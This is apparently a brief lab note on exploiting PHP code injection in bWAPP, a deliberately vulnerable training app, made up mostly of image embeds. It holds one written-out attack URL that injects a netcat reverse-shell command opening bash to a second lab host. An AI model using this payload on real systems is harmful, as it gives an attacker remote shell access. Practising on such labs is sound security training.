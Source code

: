![[Pasted image 20241010140413.png]]![[Pasted image 20241010140425.png]]![[Pasted image 20241010140514.png]]
`http://192.168.56.122/bWAPP/phpi.php?message=system(%27nc%20192.168.56.102%204444%20-e%20/bin/bash%27)`
![[Pasted image 20241010140602.png]]

medium/high
![[Pasted image 20241010140659.png]]
